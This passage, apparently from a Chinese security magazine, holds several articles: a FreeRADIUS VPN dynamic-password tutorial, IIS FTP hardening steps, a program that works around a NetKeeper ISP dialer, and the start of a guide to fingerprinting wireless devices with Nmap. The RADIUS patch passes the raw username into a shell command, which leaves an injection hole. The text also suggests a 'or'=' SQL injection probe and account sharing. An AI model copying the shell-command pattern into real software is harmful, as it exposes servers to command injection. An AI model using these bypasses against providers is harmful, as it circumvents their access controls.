mapfile /etc/radiusclient/port-id-map
default_realm
radius_timeout 10
radius_retries 3
```

上面这个文件主要注意的是配置对应的路径。另外，从配置可以看出，用来认证的是 1812 端口；用来统计的是 1813 端口。

另外，编辑 `/etc/radiusclient/dictionary` 文件，在最后加上下面几句话：

```conf
INCLUDE /etc/radiusclient/dictionary.microsoft
INCLUDE /etc/radiusclient/dictionary.ascend
INCLUDE /etc/radiusclient/dictionary.merit
```

修改完配置之后，重启一下 `radiusd -X`，然后在 Windows 上新建一个 VPN 连接（用原来建的连接也可以），用户名：xysky，密码：123456，如图 3 所示。


### 6. 打造动态口令系统

前面我们已经成功地使用了 pptpd+FreeRADIUS+MySQL 的方案搭建了一个 VPN 系统，而且密码信息存放在数据库里。经过测试，修改 MySQL 中的数据，不用重启 pptpd、radiusd、mysqld 程序，就可以做到实时改变 VPN 用户的密码（注：如果以文件形式保存这些信息，主程序需要重新加载配置才能生效）。

另外，笔者也考虑过一些方案。

- 在服务器上部署 Web Server，当用户需要登录 VPN 的时候，访问一下 Web 页面，Web 页面可以将密码呈现出来或者以短信、邮件形式发送给用户；
- 直接告诉用户一个初始的登录密码，如 123456。当然这是一个错误的密码。我们对 FreeRADIUS 验证用户相关的代码处进行修改，比如最简单的就是在验证成功后修改密码；在验证失败后将密码以短信或邮件的形式发送给用户。这样当用户使用错误的密码登录 VPN 时，程序会将当前正确的密码发送给用户。

第一个方案最容易实现，架个 nginx+php 操作 MySQL 即可，但会让用户麻烦一次请求 Web；第二个方案相对没有这个问题，只是让用户多登录一次而已，另外也只需要开放一个 pptpd 对外端口，不需要开放 Web 服务，受攻击面会相对少许多。

最终笔者采用的是第二个方案，修改 freeRADIUS 验证代码。分析 FreeRADIUS 源代码的过程就省略了，笔者修改了 `/usr/local/src/freeradius-server-2.1.9/src/modules/rlm_mschap/rlm_mschap.c` 这个文件，验证失败的代码如下：

```c
challenge_hash(response->vp_octets + 2,
               challenge->vp_octets,
               username_string,
               mschapv1_Challenge);
RDEBUG2("Told to do MS-CHAPv2 for %s with NT-Password", username_string);
if (do_mschap(...) < 0) {
    RDEBUG2("FAILED: MS-CHAP2-Response is incorrect");
    mschap_add_reply(..., "MS-CHAP-Error", "E=691 R=1");
    /* add: check user failed, then send message */
    sprintf(szBuffail, "/usr/bin/perl /usr/local/vpnpass/sendmsgsec.pl '%s'", username_string);
    ExecShell(szBuffail);
    return RLM_MODULE_REJECT;
}
```

下面为验证成功后的相关代码：

```c
if (chap == 1) {
    RDEBUG2("adding MS-CHAPv1 MPPE keys");
    memset(mppe_sendkey, 0, 32);
    if (lm_password) {
        memcpy(mppe_sendkey, lm_password->vp_octets, 8);
    }
    /* According to RFC2548 ... */
}
```

```c
memcpy(mppe_sendkey + 8, nthashhash, 16);
mppe_add_reply(request, "MS-MPPE-Keys", mppe_sendkey, 32);
} else if (chap == 2) {
    RDEBUG2("adding MS-CHAPv2 MPPE keys");
    mppe_chap2_gen_keys128(...);
    mppe_add_reply(request, "MS-MPPE-Recv-Key", mppe_recvkey, 16);
    mppe_add_reply(request, "MS-MPPE-Send-Key", mppe_sendkey, 16);
}
radius_pairmake(..., "MS-MPPE-Encryption-Policy", ...);
radius_pairmake(..., "MS-MPPE-Encryption-Types", ...);
/* add: check user success, then change user's password */
sprintf(szBufsucc, "/usr/bin/perl /usr/local/vpnpass/changepass.pl '%s'", username_string);
ExecShell(szBufsucc);
return RLM_MODULE_OK;
```

从上面的代码不难看出，当验证成功、验证失败后我增加了几句代码，分别用来修改用户密码、将当前用户正确的密码发送短信至用户手机。之所以考虑使用 perl 脚本，主要是不增加原来代码的复杂度，而且也方便后期维护，要改动相关功能只需要改脚本，无须改代码，然后 make && make install。至于用 perl 修改数据库里的密码也很容易，使用 DBI 模块即可；发送短信主要是使用 LWP 模块请求短信网关接口程序，具体不在此列出了。

### 7. 保存配置

为了避免系统重启后 VPN 服务器不可用，我们修改 `/etc/rc.local` 文件，将相关语句写入即可，语句如下：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
/sbin/iptables -t nat -A POSTROUTING -j MASQUERADE
/etc/init.d/mysqld start
/usr/local/sbin/pptpd
/usr/local/sbin/radius
```

## 方案小结与改进

上面这套系统已经基本实现了动态口令的功能，但是，如果想正式投入使用，还需要注意几个地方：

- VPN 用户连上之后，将会无法正常连接外网 FTP 服务器；
- VPN 用户连上之后，其默认网关是选用本地还是远程；
- 恶意用户不断请求错误的用户名、密码导致的问题，比如短信扣钱等；
- 合法的用户不断地提交错误密码导致的问题，同上；
- 每成功登录一次就改变用户的密码，从安全性上来讲非常不错，但在实际使用中可能会造成一些困扰，断开了再连接得再收一次短信，万一没收到短信怎么办；
- 之前玩过 SQL 注入的你，是否在想 VPN 登录是否可以玩一下 SQL 注入，是否存在 `'or'='` 的漏洞；
- 使用 NAT 共享上网的用户，可能无法连上 VPN，是否有较好的办法。

这一系列后续的问题，就留给读者朋友们思考了。在正式上线前我都已经考虑并有相对较好的解决方案，但我相信，这些东西难不倒聪明的你，对吗？当然，如果你对我这个方案感兴趣，也可以在黑防论坛上联系我，我的 ID 是 xsky。

前置知识：无  
关键词：IIS、FTP


# IIS 下构建安全的 FTP Server

文/图 李晨光

对广大直面各种网络攻击的网络安全工程师来说，工作中必然会遇到各种各样的 FTP 攻击，本文讲述了不为大家熟知的多种招数，教授如何使用大家都不看好的 IIS FTP Server 来构建足够网络管理员维护使用的 FTP 服务器，而且安全性足够高。

## 指定 FTP IP 地址并修改默认端口

- 1. 使用专用 IP 进行 FTP 服务器搭建  
  以典型的 Windows 2003 Server 系统为例，安装完成 IIS 以及 FTP 以后，依次选择“开始→管理工具→Internet 信息服务 IIS 管理器”，指向“FTP 站点”，如图 1 所示。


图 2

即使攻击者用扫描器扫描到了这个端口，往往也会因为这个陌生的端口而不明白具体运行的服务，需要详细探测才有可能发现其是 FTP 服务。接下来，将对比新建的 FTP 服务器进行详细的安全配置。


图 1

右键单击“FTP 站点”，在弹出菜单中选择“新建→FTP 站点”命令，进入“FTP 站点创建向导”。在此向导中，重点介绍为即将建立的安全的维护型 FTP 服务器指定 IP 地址并修改端口。

- 2. 使用足够隐蔽的端口进行通信  
  “端口”设置建议不使用默认端口，而是将默认端口设置成一个不常用的、大于 10000、小于 65535 的端口号。之所以要设置为大于 10000、小于 65535，是因为很多端口扫描工具默认情况下都不会扫描这部分端口，而攻击者如果手动设置扫描端口的话，出于时间和速度的考虑，也很少定义 10000～65535 这样的端口扫描规则，所以很容易迷惑攻击者，让他们根本不知道原来还有一个高端口隐藏在系统中发挥作用，如图 2 所示。

### 定制详细的 FTP 日志记录相关信息

IIS 的 FTP 系统有非常完善、丰富的日志记录系统，使用日志系统来时刻记录 FTP 服务器的运行状态是非常重要的。

- 1. 启用 FTP 服务器的日志记录功能  
  在默认情况下，IIS 管理器下 FTP 站点中的某个站点的 FTP 日志系统是启用的。

- 2. FTP 服务器的高级日志配置  
  和普通的 FTP 服务器要求不同，如果需要建立足够安全的 FTP 服务器，需要对日志系统进行详细的高级定义，定义的内容就是设置攻击者或者可能发生的攻击可能存在的典型特征。  
  需要详细定制的高级规则如下：  
  “新日志计划”：此选项控制每个日志文件的生成规则；默认是每天生成一份新的 FTP 日志。

假定攻击者绕过了种种限制，对某目标 FTP 服务器进行了大批量的分布式暴力破解攻击，如果 FTP 日志是按照默认的记录方式记录的，则会产生无比庞大的单一文件，有时候日志记录文件可能达到数十 GB 的大小，甚至撑破系统盘的空间，导致系统的正常运行出现问题。

所以这里需要首先确定 FTP 的日志按照文件大小来生成，选择“新日志计划”下的“当文件大小达到 20MB”时开始生成新的日志记录文件，方便分析和调用。

“日志文件目录”：此选项是非常重要的选项，定义 FTP 日志的存放地址，默认是存放在“C:\WINDOWS\system32\LogFiles”下，如图 3 所示。


图 3

对于任何被攻击者广泛了解的默认选项，都应该进行相关的在可允许范围内的修改。同时，出于对操作系统所在盘的保护，建议将 FTP 的日志系统定义到每个 FTP 用户单独使用的文件夹下，但不能赋予该用户对此日志记录文件的访问权限。

### 3. 定义 FTP 服务器日志的详细记录规则

在配置好日志文件的生成规则和路径以后，需要对日志文件记录信息的类型进行详细配置。一个能记录绝大多数攻击者和使用者行为的日志文件应该包含以下记录信息：

- 日期（非默认选中，需要手动选中）；
- 时间（默认选中）；
- 客户端 IP 地址（默认选中）；
- 用户名（非默认选中，需要手动选中）；
- 方法（默认选中）；
- URL 资源（默认选中）；
- 协议状态（默认选中）；
- Win32 状态（默认选中）；
- 所用时间（非默认选中，需要手动选中）；
- 用户代理（非默认选中，需要手动选中）；

需要注意的是，并不是日志系统记录的信息越多就越好，因为日志系统记录 FTP 用户（攻击者或者正常用户）的访问毕竟需要消耗资源，而且生成的日志记录同样需要存放空间。如果记录项目过多，可能引起系统资源消耗大、日志文件占用空间大的问题。

## 取消匿名访问

匿名访问是 FTP 服务器的默认设置，此设置可以很好地支持普通用户的 FTP 访问，但是要建立足够安全的 FTP 服务器，此项设置必须去除。

去除 FTP 服务器的匿名访问功能很简单，只需要右键单击 IIS 管理器下需要修改的 FTP 站点，并在弹出菜单中选择“属性”命令，进入“安全账户”标签，取消“允许匿名连接”前的√即可，如图 4 所示。


图 4

## 强制安全密码规则

在有意无意之中，一些用户的 FTP 账号密码设置得过于简单，为了提高 FTP 服务器的安全性，特别是需要建立安全性足够强的维护型 FTP 服务器，必须强制用户设置复杂的账号密码。

### 1. 组策略简介

在 Windows 系统中，密码的规则设置是由组策略所控制的。简单地说，组策略设置就是在修改注册表中的配置。当然，组策略使用了更完善的管理组织方法，可以对各种对象中的设置进行管理和配置，远比手工修改注册表方便、灵活，功能也更加强大。

依次指向“开始→运行”命令，在“运行”对话框中输入“gpedit.msc”，进入 Windows 2003 Server 系统的组策略选项。进入组策略选项以后，在左方快速链接栏中依次指向“计算机配置→Windows 设置→账户策略→密码策略”，在这里可以设置很多密码的相关安全规则，如图 5 所示。


图 5

### 2. 启用密码复杂性要求策略

在右侧窗体中找到“密码必须符合复杂性要求”一项，然后双击打开，选中“已启用”单选按钮，最后单击“确定”按钮使之生效，如图 6 所示。

如果启用“密码必须符合复杂性要求”策略，在更改或创建账户（密码）时就会执行复杂性策略检查，密码必须符合下列最低要求：

- （1）密码不能包含账户名；
- （2）密码不能包含用户名中超过两个连续字符的部分；
- （3）密码至少有 6 个字符长度；
- （4）策略包含以下 4 类字符中的至少 3 类字符：英文大写字母（A~Z）、英文小写字母（a~z）、10 个基本数字（0~9）、特殊字符（例如 !、$、#、%）。


图 6

### 3. 启用密码长度最小值策略

另外，根据安全密码规则中密码长度的要求，可以双击“密码长度最小值”项进行最小密码长度的设置。例如，把最小长度设置为 8 个字符，经过这样的设置，FTP 用户（乃至系统用户）的密码安全性就大大地提高了，系统安全性也就大大增强了。

## 使用专用账户访问 FTP 服务

维护型的 FTP 服务器使用者一般是网络管理员，所以不存在大量用户使用的问题，一般都是机构管理员在分别使用。针对这样的情况，如果采用 IIS 下的 FTP Server 构建服务器，首先应该考虑的是去掉默认 FTP 服务器中的匿名访问，然后建立专用的 FTP 账户，最后为专用的 FTP 账户指定访问目录。

### 1. 建立专用 FTP 账户

假定有 5 个管理员需要对服务器进行经常性的维护，而且各自的工作职能不同，那就需要建立至少 5 个专用 FTP 账户。建立第 1 个账户，如图 7 所示。


图 7

```
net user ftp01 pass11@!wd /add
```

重复上述用户建立设置，依次建立 ftp01～ftp05 这 5 个账户。

### 2. 建立专用账户对应的 FTP 文件夹

建立好 FTP 专用账户以后，需要为专用账户指派 FTP 目录。以系统管理员身份找到 h:\ 的根文件夹，分别为每个用户建立一个对应的文件夹。例如，用户 ftp01 就对应 ftp01 文件夹，ftp02 用户对应 ftp02 文件夹……

上述几个步骤只是简单地建立了几个可用账户，远远没有达到实现安全 FTP 的目的，下述内容将进行详细设置。

## 使用 NTFS 约束 FTP 用户权限

在管理员各自对应的 FTP 用户建立好之后，并不能直接使用，需要对各账户进行详细的权限设置。

### 1. 将 FTP 用户权限限定为 Guest 组

使用“net user”命令建立的系统用户默认属于“Users”组，在系统中具有一定的权限。首先需要做的是删除这些 FTP 用户的“Users”组权限，并将它指派成 Guest 用户组中的一员。使用如下命令删除刚刚建立的各账户的“Users”组权限：

```
net localgroup users ftp01 /del
```

然后使用如下命令将该账户指派到系统的“Guests”用户组，如图 8 所示。

```
net localgroup guests ftp01 /add
```


图 8

现在的各个 FTP 账户都处于“Guest”用户组，权限非常低。删除并更改完 FTP 用户的所属用户组以后，需要对各个 FTP 用户对应的文件夹进行权限设置。

### 2. 删除各个 FTP 文件夹继承权限

以 ftp01 账户对应的 ftp01 文件夹为例，以系统管理员身份登录，选中文件夹并右键单击，在弹出菜单中选择“属性”命令，然后在弹出的对话框中选择“安全”选项卡。默认情况下这里有非常多的已经继承于上级文件夹的权限，我们需要做的是删除这些默认的权限，但是在删除的时候会出现系统提示，如图 9 所示。

因为“SYSTEM”从其父系继承权限，您无法删除此对象。要删除“SYSTEM”必须阻止对象继承权限。关闭继承权限的选项，然后再试删除“SYSTEM”。因为权限是继承上级文件夹的，所以不能直接删除，需要单击“高级”按钮，进入此文件夹的“高级安全设置”。


图 9

### 3. 为 FTP 用户指派文件夹访问权限

此时的文件夹是系统中很多用户都不能直接使用的，即使是管理员也无法直接打开。这时候需要为 FTP 账户指派访问权限。选中文件夹“安全”选项卡下的“添加”，分别选择“高级→立即查找”命令，选中上述建立的 FTP 专用用户即可。此时 ftp01 默认已经有部分权限，包括“读取和运行”“列出文件夹目录”“读取”3 种。作为系统管理员们使用的维护型 FTP，显然需要经常使用上传功能，所以这里需要选中“写入”权限。

上述各选项均为基本的 FTP 设置选项，完成以后具有一定安全性的维护型 FTP 服务器就建立好了，但是要做到高安全性还是不够，需要进行一些其他设置。

## 强制密码更改时间与强制密码历史策略

如果遇到构造巧妙的暴力破解攻击，管理员是很难受的。一个安全的、少数人使用的 FTP 服务器中，每个用户应当经常性地（在用户可以承受的日期以内）修改密码，以缩短被暴力破解的时间，保护密码安全是需要重点注意的。在 Windows 2003 Server 系统中，组策略可以使用“强制密码更改时间”和“强制密码历史”策略做到这一点。具体来说，如何在尽量不影响用户正常使用的前提下，尽量限制暴力破解的时间呢？在 Windows 系统下，可以使用强制密码更改时间策略实现；如何避免很多用户（包括管理员）习惯使用两至三个固定密码进行循环的非安全机制呢？可以使用强制密码历史策略。

- 1. 启用强制密码更改时间策略

为了大大缩短暴力破解攻击可以发起的时间，极度降低暴力破解的成功率，在不影响用户正常使用的前提下，强制性地要求用户定期修改自己的 FTP 密码是非常重要的一个安全措施，组策略可以完成这样的策略指派。

使用 `gpedit.msc` 命令打开组策略编辑器，在“计算机配置”下的“安全设置→账户策略→密码策略”下，可以看到“密码最短使用期限”和“密码最长使用期限”。

“密码最长使用期限”这个安全设置是确定系统要求用户更改密码之前可以使用该密码的时间（单位为天），也就是说这个时间控制用户必须在多少天之内修改密码。

管理员可以将密码的过期天数设置在 1～999 天之间。具体来说，分为以下 3 种情况：

- 如果将天数设置为 0，则指定密码永不过期；
- 如果密码最长使用期限在 1～999 天之间，那么“密码最短使用期限”必须小于密码最长使用期限；
- 如果密码最长使用期限设置为 0，则密码最短使用期限可以是 1～998 天之间的任何值。

兼顾到正常用户的使用，这里建议设置的密码过期天数是 30～90 天。这是一种实践证明比较优秀的安全策略。通过这种方式，攻击者只能够在有限的时间内破解用户密码。这个策略应该和上面的最长使用期限相配合，合理的设置应该是 30 天左右。

- 2. 启用强制密码历史策略

“强制密码历史”策略是指用户在重新使用旧密码之前，该用户所使用的新密码必须不能与自己所使用的最近的旧密码一样。该策略通过确保旧密码不能在某段时间内重复使用，使用户账户更安全。需要说明的是，如果管理员希望“强制密码历史”安全策略选项设置有效，则需要将“密码最短有效期限”配置为大于 0。如果没有密码最短有效期限，则 FTP 用户可以重复循环通过密码规则的密码，直到获得喜欢的旧密码。默认设置不遵从这种推荐方法，因此管理员可以为用户指定密码，然后要求当用户登录时更改管理员定义的密码。如果将该密码的历史记录设置为 0，则用户不必选择新密码。因此，一般情况下将密码历史记录设置为 1。

## 错误锁定策略指派

通过上文的一些设置，现在的密码安全策略已经有了保障，但是面对头疼的暴力破解攻击，如何让维护型的 FTP 服务器具有强悍的防御能力呢？这就需要使用错误锁定策略。

- 1. 定义账户锁定阈值

“错误锁定”策略在组策略“计算机配置”中的“安全设置→账户策略”下。双击打开“账户锁定阈值”，这个安全策略确定导致 FTP 用户账户被锁定的登录尝试失败的次数，在管理员重置锁定账户或账户锁定时间期满之前，无法使用该锁定账户。也就是说，如果达到管理员设置的登录错误次数，则该账户将被锁定。管理员可以将登录尝试失败次数设置为 0～999 之间的值，如果将值设置为 0，则永远不会锁定账户。

一般情况下，为了对暴力破解（或者社会工程学猜解）攻击的防御，设置账号登录的最大次数在 5～10 次左右，如果攻击者尝试登录该账户超过此数值，账号会被自动锁定。

- 2. 定义账户锁定时间

设置完“错误锁定”策略后，打开“账户锁定时间”策略，这里设置 FTP 账号被锁定的时间，账号一旦被锁定，超过这个时间值，才能重新使用。

## 启用目录安全性拒绝 99% 的各类 FTP 攻击

经过上述设置，一个安全性足够高且使用效率很高的 FTP 服务器已经架设成功。但是作为一个专门为管理员服务的维护型 FTP 服务器，如果能做到下面的一个设置，将把整体的安全性提高至少 3 个档次！

不管是什么样的 FTP 攻击，能登录是最基本的一个步骤，也是绝大部分攻击发起的目标成果。如果系统管理员采用“一招制敌”的方式，直接掐断非法用户的 FTP 登录功能，让攻击者无法使用（或者非常难使用）暴力破解攻击，让攻击者得到 FTP 账户和密码也没有登录权限的话，就能解决起码 99% 以上的攻击！

在 IIS 的 FTP Server 中，“目录安全性”可以实现这个功能，不过根据管理员不同的环境，策略会有些许变化。依次指向 IIS 管理器的 FTP 站点，右键单击并在弹出菜单中选择“属性”命令；打开“目录安全性”选项卡，在界面中选择“拒绝访问”单选按钮，然后单击“添加”按钮，定义允许访问的单一计算机、多台计算机。设置好的界面“目录安全性”是通过 FTP 用户的登录 IP 进行判断的一种机制，如图 10 所示，其中“拒绝访问”代表默认拒绝所有 IP 的 FTP 使用请求，除非请求登录 FTP 的计算机 IP 地址包含在“下面列出的除外”列表框中。

通过这个设置，管理员可以控制唯一的，或者是极少的绝对信任 IP 可以使用 FTP 功能。例如，在一个大型的公司网络中，全部员工都是使用固定 IP 连接网络（或使用固定 IP 地址的出口网关上网），管理员可以定义只允许此 IP 地址的计算机（或计算机群）进行 FTP 服务器的使用，其他所有的 IP 地址均不能访问 FTP 服务器。

经过这样的设置，所有的外部攻击者都被阻挡在 FTP 服务器以外了。不过这个功能在两种情况下可能存在缺陷。

图 10

第一种情况是攻击者使用了 IP 伪造技术，不但成功欺骗了互联网，还成功欺骗了服务器，让服务器以为攻击者就是被允许访问者中的一员，从而让攻击者达到攻击网络服务器的目的。不过这样的攻击难度实在太大，相信没有几个攻击者愿意尝试。

第二种情况是攻击者通过渗透攻击等方式，控制了和服务器管理员同 IP 的计算机，比如管理员的同事等，然后在管理员同事的计算机上进行 FTP 攻击。当然，这样的渗透攻击本身就难于 FTP 攻击，所以现实中存在的类似攻击也相当少。

## 对配置后的服务器进行最后的演练

有防御就有攻击，任何安全工程师都不可能说自己构建的防御体系是完美的，是不可能被攻破的。所以下面将针对上述的各项安全措施防御的维护型 FTP 服务器，进行理论化的高级攻防演练。

如果攻击者采用传统的暴力破解技术，那无疑是不能直接对上述加固后的 FTP 服务器进行攻击的，因为 FTP 服务器不仅有 IP 限制策略，也就是目录安全性策略；就算攻击者成功地获得了一台允许使用 FTP 服务器的计算机（或某 IP），还有很大几率会卡在 FTP 服务器的端口隐藏策略、密码安全策略、密码更换策略、账户登录错误锁定策略等相关安全策略之中。

就现在的网络技术而言，一般情况下要对上述的安全 FTP 服务器进行暴力破解，成功率趋近于零。如果攻击者想采用漏洞攻击，先不说目录安全性策略是否能够绕过，就目前存在的、公布的漏洞来看，这样的漏洞还没有可用的（当然，不排除有非常牛的攻击者研究出了 IIS 下的 FTP 惊天漏洞而未公布）。如果攻击者采用嗅探技术获得上述 FTP 服务器的密码，那么接着需要解决的就是目录安全性的问题（也就是 IP 策略）、可能遇到的密码定期更改问题等。

总的来说，上述 IIS 下 FTP 服务器可能随着攻防技术的不断进步而产生漏洞，但就目前的技术水平来看，单就 FTP 服务本身而言（不包括服务器其他方面的服务出现漏洞等情况），安全性有了显著提高。

前置知识：无

关键词：拨号、NetKeeper

# 用系统自带拨号程序代替 NetKeeper 拨号

文/图 No Comment

现在重庆很多高校都使用的是 NetKeeper 拨号软件进行上网，此软件不但限制了大家使用路由器，而且每次登录成功后还会弹出烦人的广告，甚至还在后台做见不得人的事情。很多人对电信的这款流氓软件恨之入骨，却又无可奈何。网上虽然也有一些破解资料，但有些已经不能再用了，所以这几天自己花了点时间研究了一下。

首先用 Sniffer Pro 对 NetKeeper 的拨号过程进行抓包（具体过程我就不说了，大家可以参考《完全破解第一流氓软件电信星空极速实用教程》），感谢此文章的作者啊，并找到发送账号密码所在的数据包，如图 1 所示。

图 1

大家可以看到在进行验证时，原始账户被进行了加密，格式就是：`<0D0A>+密文+原始账号`。而密码是原始的密码。其实，电信就是通过 NetKeeper 将用户的原始账号进行加密，然后再进行拨号操作，这样就能避免大家直接使用系统自带的拨号程序进行拨号，从而也避免了大家使用路由器。

但是细心的读者可能会发现，将上面的账号放到系统的自带拨号程序里面是无法拨号成功的，原来 `<0D0A>` 并不是几个字符，在 Windows 中，它代表的是换行符。大家可以看看图 1 中的 HEX 数据，右边的字符串“XA|O&******”前方其实是没有字符的。

原来电信为了防止大家将加密后的账户直接用自带的拨号软件拨号，特地在账户前面加上了换行符，这下似乎就无法将账号完整地输入到拨号程序中了。

不过我用 OD 的窗口插件查看了一下拨号窗口的输入账户和密码的控件，发现其实就是两个 EDIT 控件，这下似乎好办了。我们可以写个简单的小程序，先找到自带拨号程序的窗口，再找到输入窗口的句柄，将需要写入的数据放到一个缓冲区，再直接用 SendMessage 函数设定其控件的内容。

```cpp
// Code::Blocks 10.05 下通过
#include <stdlib.h>
#include <windows.h>
#include <string.h>
#include "resource.h"

BOOL CALLBACK DialogProc(HWND hwndDlg, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    // ...
    case IDC_BTN1: // 导入信息
    {
        char WndName[50];
        char UsrId[50];
        char PassWord[50];
        UsrId[0] = 0x0d; // 将缓冲区头部设定为换行符
        UsrId[1] = 0x0a;
        GetDlgItemText(HwndDlgMain, IDC_EDT1, WndName, 50); // 获取拨号窗口名
        GetDlgItemText(HwndDlgMain, IDC_EDT2, &UsrId[2], 50); // 获取加密后账号
        GetDlgItemText(HwndDlgMain, IDC_EDT3, PassWord, 50); // 获取密码
        HWND Hwnd = FindWindow(0, WndName);
        // SendMessage(...)
    }
}
```

```cpp
char UsrId[50];
char PassWord[50];
UsrId[0] = 0x0d; // 换行符
UsrId[1] = 0x0a;
GetDlgItemText(HwndDlgMain, IDC_EDT1, WndName, 50);
GetDlgItemText(HwndDlgMain, IDC_EDT2, &UsrId[2], 50);
GetDlgItemText(HwndDlgMain, IDC_EDT3, PassWord, 50);
HWND Hwnd = FindWindow(0, WndName);
if(!Hwnd){ MessageBoxW(...); }
SendMessage(GetDlgItem(Hwnd, 0x450), WM_SETTEXT, 0, (LPARAM)UsrId);
SendMessage(GetDlgItem(Hwnd, 0x44f), WM_SETTEXT, 0, (LPARAM)PassWord);
return TRUE;
```

大家先在自己的计算机中新建一个连接，并将名字命名为“宽带连接”，然后再抓包取加密后的账号，输入到刚刚编写的程序中，再单击“导入账户信息”按钮，如图 2 所示，勾选“为下面用户保存用户名和密码”复选框，然后单击“连接”按钮，连接成功后，以后就能直接用此系统自带的拨号程序进行拨号了。

图 2

对于账号加密，其实也不用每次都抓包，网上有一个叫做“NetKeeper 算号器”的程序，虽然现在不能用它直接联网，但是它的加密算法是对的（有兴趣的可以去研究研究），我们可以用它来生成加密的账号，然后将此程序加到自带拨号程序里面。以后就能直接用自带拨号程序联网。有兴趣的人还可以试试共享一个账号上网，网上有很多资料，这里我就不多说了。（编辑提醒：本文涉及的代码可到黑防官方网站下载）

前置知识：无

关键词：无线网络、指纹识别

# 无线网络设备指纹识别

文/图 杨哲

## 前言

一直以来，虽然有很多工具和资料都在讲述 OS 的指纹识别，但并没有太多资料讨论无线网络设备的指纹识别，而具体型号的识别将有助于黑客实施针对性的漏洞攻击或者更为深入的渗透。以前某个参与扫描器开发的朋友向我问及了这方面内容，也有一些读者给我写信说找不到这方面资料。说实话我觉得这些东西光靠看问答是永远也学不到实际技术的，不过被催问得多了，还是写下了此文。这篇文章并不是从底层那样枯燥地分析，希望能起到引导作用。

本文主要包括以下几个部分：

- 主流的 OS 指纹识别技术；
- 无线网络与有线网络的异同；
- 基于有线技术的指纹识别；
- 基于无线技术的指纹识别；
- 针对手持设备的指纹识别；
- 其他手段；
- 小结。

### 主流的 OS 指纹识别技术

提到指纹识别，我想很多朋友第一时间会想起 Nmap 这款工具的独特能力，还有些朋友可能会想起 p0f、Xprobe2 等工具。这些极具代表性的工具可以说都代表了目前主流的主动式和被动式 OS 指纹识别技术。下面来分别看看主要的技术原理及实现。

### 1. 主动式指纹识别

对于采用主动式指纹识别技术的典型代表 Nmap 来说，其最著名的功能之一是用 TCP/IP 协议栈 fingerprinting 进行远程操作系统探测。这个功能模块我们在很多扫描工具中都能看到其身影，比如 X-Scan、Nessus 以及 SSS 等。Nmap 发送一系列 TCP 和 UDP 报文到远程主机，检查响应中的每一个比特。在进行大量测试，如 TCP ISN 采样、TCP 选项支持和排序、IPID 采样、初始窗口大小检查之后，Nmap 把结果和数据库 nmap-os-fingerprints 中超过 1500 个已知操作系统的 fingerprints 进行比较，如果有匹配，就打印出操作系统的详细信息。每个 fingerprint 包括一个自由格式的关于 OS 的描述文本和一个分类信息，它提供供应商名称、操作系统 OS 版本和设备类型等。

如果 Nmap 不能猜出操作系统，但获取到了一些目标信息（如至少发现了一个开放端口和一个关闭端口），此时 Nmap 会提供一个 URL，如果用户确认运行的操作系统，则可以把 fingerprint 提交到那个 URL。这样用户就协助扩大了 Nmap 的操作系统知识库，从而让每个 Nmap 用户都能受益。

操作系统检测还可以进行其他一些测试，这些测试可以利用处理过程中收集到的信息。例如运行时间检测，使用 TCP 时间戳选项（RFC 1323）来估计主机上次重启的时间，这仅适用于提供这类信息的主机。另一种是 TCP 序列号预测分类，用于测试针对远程主机建立一个伪造 TCP 连接的可能难度。这对于利用基于源 IP 地址的可信关系（rlogin、防火墙过滤等）或者隐含源地址的攻击非常重要。这一类欺骗攻击现在很少见，但一些主机仍然存在这方面漏洞。实际难度值基于统计采样，因此可能会有一些波动。通常采用英国的分类较好，如“worthy challenge”或者“trivial joke”。在详细模式（-v）下只以普通方式输出，如果同时使用 -O，还报告 IPID 序列产生号。很多主机的序列号是“递增”类别，即在每个发送包的 IP 头中增加 ID 域值，这对一些先进的信息收集和欺骗攻击来说算是个漏洞。

Nmap 中可以使用如表 1 所示的选项参数启用和控制 OS 操作系统检测：

#### 表 1

| 参数 | 描述 | 备注 |
|---|---|---|
| -O | 启用操作系统检测 | 注意大小写 |
| --osscan-limit | 针对指定目标进行操作系统检测 | 细节化的参数 |
| --osscan-guess / --fuzzy | 推测操作系统检测结果 | 一般不使用 |

其中，关于这 3 个参数的具体解释如下所示：

- `-O` 也可以使用 `-A` 来同时启用操作系统检测和版本检测。
- `--osscan-limit`：如果发现一个打开和关闭的 TCP 端口时，操作系统检测会更有效。采用这个选项，Nmap 只对满足这个条件的主机进行操作系统检测，这样可以节约时间，特别在使用 `-P0` 扫描多个主机时。这个选项仅在使用 `-O` 或 `-A` 进行操作系统检测时起作用。
- `--osscan-guess`、`--fuzzy`：当 Nmap 无法确定所检测的操作系统时用于猜测，会尽可能地提供最相近的匹配。Nmap 默认进行这种匹配，使用上述任一个选项使得 Nmap 的推测更加有效。

上面是 Nmap 的具体命令参数，而在 Nmap 的安装目录下，我们可以看到一个名为 nmap-os-db 的文件，其中定义了已经过测试的操作系统或者设备指纹库，其格式示例如下：

```txt
# 2wire 2701HG router
Fingerprint 2Wire 2701HG wireless ADSL modem
Class 2Wire | embedded | WAP
SEQ(SP=6D%C3%GCD=1-6%ISR=96-A0%TI=I%CI=I%TS=E)
OPS(O1=M5B4NNNSWONNNT11%O2=M578NNSWONNNT11%O3=M280WONNNT11%O4=M218NNSWONNNT11%O5=M218NNSWONNNT11%O6=M109NNSNNT11)
WIN(W1=8000%W2=8000%W3=8000%W4=8000%W5=8000%W6=8000)
ECN(R=Y%DF=Y%T=FA-104%TG=FF%W=8000%O=M5B4NNSWON%CC=N%Q=)
T1(R=Y%DF=Y%T=FA-104%TG=FF%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=E44A4E43%Q=)
T5(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=Z%A=S+%F=AR%O=%RD=BD1AB510%Q=)
T6(R=Y%DF=Y%T=FA-104%TG=FF%W=0%S=A%A=Z%F=R%O=%RD=EA6C967D%Q=)
T7(R=N)
U1(DF=Y%T=FA-104%TG=FF%IPL=70%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=N)
```

由于涉及技术点太多，下面挑出其中几个对应的测试技术点放到表 2 中供大家查看。关于更多细节化的内容，可以参考 http://nmap.org/book/osdetect.html，该文档使用多种语言描述了版本检测的方式、使用和定制，如表 2 所示。

| 测试点 | 描述 | 具体技术 |
|---|---|---|
| ECN | 测试 TCP 栈所支持的 Explicit Congestion Notification | 详见 RFC3168 文档介绍 |
